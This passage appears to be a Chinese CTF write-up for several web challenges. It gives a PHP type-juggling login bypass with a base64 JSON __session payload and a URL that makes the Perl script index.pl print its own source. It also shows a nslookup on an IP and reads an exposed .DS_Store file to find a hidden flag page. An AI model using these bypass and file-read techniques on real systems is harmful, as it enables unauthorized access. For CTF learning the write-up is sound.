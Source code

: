 ```php
            $_SESSION["login"]=1;
            $_SESSION["userin"]=$userin;
            header("Location: admin.php");
            exit();
        }else{
            echo "用户名或密码错误";
        }
    }

}
```

可以看出`session`可控，而且存在`==`弱类型,`True=="xxxxxxx"` 恒成立
用如下代码构造payload
```php
$session['uid']=1;
$session['hash']=True;

echo base64_encode(json_encode($session));
```
最后抓登陆的包，加一个参数`__session`值为`eyJ1aWQiOjEsImhhc2giOnRydWV9`就能跳转到`admin.php`

## php的锅
改天写好了



# 秋季预赛

## 都是php就不好玩了呀 
题目地址： http://118.178.18.181:57016/index.pl?file=test.txt
perl写的，直接读取`index.pl`就能拿到flag
```
http://118.178.18.181:57016/index.pl?file=index.pl
```

## 查询ip
夏季预赛的题，直接nslookup
```bash
C:\Users\xxxxxx>nslookup 107.182.177.34
服务器:  UnKnown
Address:  172.16.0.1

名称:    this-is-flag
Address:  107.182.177.34
```

## mac就是好用
题目地址： http://118.178.18.181:57013/
下载`http://118.178.18.181:57013/.DS_store`,cat一下，发现`s h o w m e f l a g . p h p`字样
访问
```
http://118.178.18.181:57013/showmeflag.php
```
拿到flag

